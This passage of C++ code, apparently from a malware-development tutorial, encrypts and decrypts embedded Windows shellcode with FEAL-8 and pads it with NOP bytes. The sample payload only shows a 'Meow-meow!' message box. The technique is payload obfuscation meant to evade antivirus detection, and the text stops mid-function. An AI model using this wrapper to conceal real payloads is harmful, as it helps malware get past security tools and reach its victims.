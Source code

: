 ```cpp
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % 
  BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
```